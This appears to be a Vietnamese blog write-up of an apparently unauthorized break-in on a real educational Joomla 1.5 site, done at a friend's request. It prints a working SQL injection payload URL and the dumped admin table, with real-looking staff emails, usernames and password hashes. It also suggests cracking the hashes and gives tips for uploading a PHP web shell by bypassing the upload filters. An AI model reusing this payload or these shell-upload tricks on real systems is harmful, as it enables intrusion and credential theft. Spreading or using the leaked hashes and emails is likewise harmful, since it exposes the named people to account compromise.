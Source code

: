 # TÔI ĐÃ HACK HTTP://CMS.FPT-X.EDU.VN NHƯ THẾ NÀO?

## 0. PHẦN MỞ ĐẦU

Lý do, mình thực hiện kiểm tra trang này là do yêu cầu của một cậu bạn, giữa mình và cậu ta có một cuộc trao đổi nên sẵn tiện mình chia sẻ cho các bạn đọc bài này để hiểu rõ hơn về cách thức kiểm tra một trang website cơ bản chẳng hạn như mục tiêu trong bài viết.

![](https://media.giphy.com/media/QVhQUlQifO3ZId3QVv/giphy.gif)


## 1. XÁC ĐỊNH CÁC THÔNG SỐ CƠ BẢN

Để có thể giải quyết cái bài toán trên của cậu bạn kia, chúng ta cần phải thu thập thông tin, xác định các thông số cơ bản và đánh giá sau đó đưa ra cách thức để kiểm tra phù hợp với mục tiêu. Cụ thể các thông số cơ bản trong bài này chúng ta cần tìm hiểu là:

- Server của mục tiêu này hoạt động là gì? (VPS Linux/Windows)(APACHE/IIS)
- Mã nguồn mục tiêu này sử dụng là gì? (Wordpress/Laravel/Joomla/.../)
- Phiên bản của mã nguồn này đã outdated hay chưa?
- `...`

**Thứ nhất:** Xác định được Server đang hoạt động là Linux/Windows sẽ cho chúng ta biết nên lựa chọn cách kiểm tra nào cho phù hợp.

**Thứ hai:** Xác định mã nguồn giúp chúng ta thu hẹp lại dễ dàng xác định được các lỗ hổng đặc trưng của từng framework.

**Thứ ba:** Xác định phiên bản `outdated` hay chưa sẽ giúp chúng ta có thêm nhiều cách kiểm tra, vì phiên bản `outdated` sẽ tồn tại nhiều lỗ hổng. Xem và tìm hiểu thêm về: [POC](https://timviec365.vn/blog/poc-la-gi-new7679.html) và [CVE](https://resources.cystack.net/zero-day-la-gi-cve-la-gi/) và Xem thêm trang: https://cve.mitre.org/ nhé.

![Minh họa cho các trang outdated <(")](https://media.giphy.com/media/iVDo6InQKyW8o/giphy.gif)

### CÁCH TỚ XÁC ĐỊNH 

Có nhiều cách để kiểm tra những thông số trên, từ thủ công cho đến công cụ hoặc các đặc điểm nhận dạng. Ở đây, tớ dùng cách thủ công đó là kiểm tra `robots.txt` và viewsource <("). Để kiểm tra file `robots.txt` thì hãy thêm phần ```/robots.txt``` vào web nhé.

![image](https://user-images.githubusercontent.com/53977417/137295460-c4c0f653-3fc2-4e4c-a2ca-c9e322d0e860.png)

Theo hình ta thấy, cấu trúc này nó `disallow` path `/administrator/` nếu các bạn đã từng kiểm tra nhiều thì chỉ cần nhìn phần này ta có thể đoán được đây là mã nguồn Joomla rồi. Thử truy cập vào path `/administrator` này để ta có thể biết rõ mã nguồn gì nhé. 

![image](https://user-images.githubusercontent.com/53977417/137295534-045d56bc-3205-4317-9197-ded9476e0551.png)

Chuẩn rồi đó, `JOOMLA` tiếp theo đối với phần thông số `version` nhìn vào giao diện này tớ đoán đây là phiên bản cũ, đối với các phiên bản cũ bạn có thể viewsource vì nó có để version trong này. Ấn tổ hợp phím `CTRL + U` hoặc chuột phải chọn `Viewsource` nhé.

![image](https://user-images.githubusercontent.com/53977417/137295610-c950244f-1926-44ab-926c-b73315310103.png)

```html
<meta http-equiv="content-type" content="text/html; charset=utf-8" />
<meta name="robots" content="index, follow" />
<meta name="keywords" content="FPT Aptech Iboard, CMS-HCM news and Course Manage System" />
<meta name="description" content="FPT Aptech Iboard News, Information for Students - Pham Phu Phi Author" />
<meta name="generator" content="Joomla! 1.5 - Open Source Content Management" />
<title>Aptech Iboard News - Administration</title>
<link href="/administrator/templates/khepri/favicon.ico" rel="shortcut icon" type="image/x-icon" />
<script type="text/javascript" src="/media/system/js/mootools.js"></script>
```
Bạn có thể nhìn vào thẻ `<meta name="generator">` Ở đây chúng ta thấy `content="Joomla! 1.5 - Open Source Content Management"` như vậy là đã xác định được version của mục tiêu này rồi. Mã nguồn: Joomla - Phiên bản: 1.5 <(")

## 2. XÁC ĐỊNH CÁC CVE TỒN TẠI TRONG MỤC TIÊU TRÊN

Do ở phần 1, chúng ta đã xác định được mã nguồn và phiên bản thì nhận xét đây là phiên bản lỗi thời nên cách tốt nhất là hãy dùng công cụ Joomscan để dò toàn bộ CVE của các phiên bản Joomla trước, từ đó tiến hành thực hiện quá trình khai thác nhé. Joomscan có sourcecode trên github, các bạn git về sử dụng nhé.

![image](https://user-images.githubusercontent.com/53977417/120837780-5744f980-c591-11eb-9f90-02a9dee126aa.png)

Sau khi chạy xong chúng ta sẽ thu được các CVE sau: 

```shell

[+] FireWall Detector
[++] Firewall not detected

[+] Checking module: jckeditor
[++] Joomla Component JCK Editor 6.4.4 - 'parent' SQL Injection
POC: http://cms.fpt-x.edu.vn/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent="%20UNION%20SELECT%20NULL,NULL,0x54683173317374337374,NULL,NULL,NULL,NULL,NULL--%20aa
EDB : https://www.exploit-db.com/exploits/45423/

[+] Detecting Joomla Version
[++] Joomla 1.5.15

[+] Core Joomla Vulnerability
[++] Joomla! 1.5.x - SQL Error Information Disclosure
EDB : https://www.exploit-db.com/exploits/34955/ 

Joomla! < 1.7.0 - Multiple Cross-Site Scripting Vulnerabilities
EDB : https://www.exploit-db.com/exploits/36176/

Joomla! 1.5 < 3.4.5 - Object Injection Remote Command Execution
CVE : CVE-2015-8562
EDB : https://www.exploit-db.com/exploits/38977/

Joomla! 1.0 < 3.4.5 - Object Injection 'x-forwarded-for' Header Remote Code Execution
CVE : CVE-2015-8562 , CVE-2015-8566 
EDB : https://www.exploit-db.com/exploits/39033/
```

Trong số các CVE xuất ra, điều khiến chúng ta chú ý nhất là lỗi `Joomla Component JCK Editor 6.4.4 - 'parent' SQL Injection` nó có cả POC, truy cập vào POC để kiểm tra thử nhé. 

![image](https://user-images.githubusercontent.com/53977417/120838397-f833b480-c591-11eb-8d14-4cdc93f994ab.png)

Tèn tén ten, site này đã bị lỗi SQL Injection via Component JCK Editor, giờ chỉ đơn giản là tiến hành khai thác SQL Injection thông thường. <(")

![image](https://user-images.githubusercontent.com/53977417/120838769-66787700-c592-11eb-9045-4c7c4eda8dd8.png)

```html
<node text="" icon="_closed" selectable="false" url="ibo_banner,ibo_bannerclient,ibo_bannertrack,ibo_categories,ibo_components,ibo_contact_details,ibo_content,ibo_content_frontpage,ibo_content_rating,ibo_core_acl_aro,ibo_core_acl_aro_groups,ibo_core_acl_aro_map,ibo_core_acl_aro_sections,ibo_core_acl_groups_aro_map,ibo_core_log_items,ibo_core_log_searches,ibo_groups,ibo_menu,ibo_menu_types,ibo_messages,ibo_messages_cfg,ibo_migration_backlinks,ibo_modules,ibo_modules_menu,ibo_newsfeeds,ibo_plugins,ibo_poll_data,ibo_poll_date,ibo_poll_menu,ibo_polls,ibo_sections,ibo_session,ibo_stats_agents,ibo_templates_menu,ibo_users,ibo_weblinks"> </node>
```

![image](https://user-images.githubusercontent.com/53977417/120839007-a63f5e80-c592-11eb-880f-a4bb8ad65d0b.png)

```html
<nodes>
<node text="" icon="_closed" selectable="false" url="id,name,username,email,password,usertype,block,sendEmail,gid,registerDate,lastvisitDate,activation,params"> </node>
</nodes>
```

![image](https://user-images.githubusercontent.com/53977417/120839388-15b54e00-c593-11eb-9cc7-9faf2aedb035.png)

```html
<nodes>
<node text="" icon="_closed" selectable="false" url="62|phuphi.80@mail.com|iboardadmin|b0944741c876f80cecb2ae4614629f0c,63|phipp@fpt.com.vn|phipp|711a00d5f9d89db047089a0f3e796d93:i76l3wDzPrSjJimcdUnHRzcGPtWS06sI,88|dungnm@fpt.com.vn|DungNM|dcf0e49476c8a80695c2bc02b76c4d0d:TZRt8IH5keCGg5mb32oyi3OJGkICcInf,89|binhtt@fpt.edu.vn|binhtt|38ed0ef8909ea274b83a1721b37f67f2:G9guVztcbirUeKFSt92wRH1ikqxERLoG,86|phunglv@fpt.edu.vn|phunglv|d4dba7fbeaf7f1cad6b77b3ef5a6825d:SujNXMdj4uGujdRCI4dngJO4SKxFkEzO,87|truongnpk@fpt.edu.vn|truongnpk|17d325d7dc7c912d0fa3634ac03301f1:qzunXOftPrMpUsE0y3XY5n3kSGEb6M50,74|phongna@fpt.edu.vn|phongna|66eb9743fcd396e7dea5819e9256cbed:8bakqusoU6TzUK59XGfq6SIkoH2Jjqpv,90|vietnq@fpt.edu.vn|vietnq|68d2d21db027c0532994d3dd6dcdd2d2:BSwa7HKRiuxbaPsz16COMbLJjXBHUF26,91|haims@fpt.edu.vn|haims|06b4ca002fadf3f4349a5706f266a3e9:UYusc2gwQKI1H8dtXo7xCL8bAAkcAkmQ,92|diepnn4@fpt.com.vn|diepnn4|9bcc9af5bb1429bd6fd4b11e53ad1a59:c5orglHgQbjQBZEahsWCr0C6DIRQbMvv,93|ducnv8@fpt.com.vn|ducnv8|2a35323a7f29eed06879a6e77a508695:Zbk3skwErS7xPxPrrGSSGDGiDEkWPbaQ,94|trainv"> </node>
</nodes>
```

Vậy là đã dump xong thông tin đăng nhập rồi, nhìn vào các dạng hash ta có thể đoán được đoạn đầu tiên sử dụng md5 còn lại là các hash khác nhau. Do vậy ta có thể thử vận may bằng cách decrypt hashmd5 xem trên hashkiller có lưu trữ lại chuỗi hash này không nhé. 

![image](https://user-images.githubusercontent.com/53977417/120839688-73e23100-c593-11eb-9155-b0a00b98edfe.png)

Vậy là xong rồi, tớ sẽ ngừng bài viết này ở đây, còn các cậu muốn tìm hiểu hay upshell chiếm server rồi get root tớ không can thiệp hẻ. 

**Mách nhỏ:** Muốn upload shell Joomla, hãy config lại Legal Extensions (File Types), tắt đi chức năng Restrict Uploads và Check MIME Types, thêm định dang MIME Types cần thiết và thử bypass extension nhé. VD: Shell.php -> Shell.pHp, .phP, .php3, .php5,.. 

![image](https://media.giphy.com/media/s4Q3geM5T1XCo/source.gif)






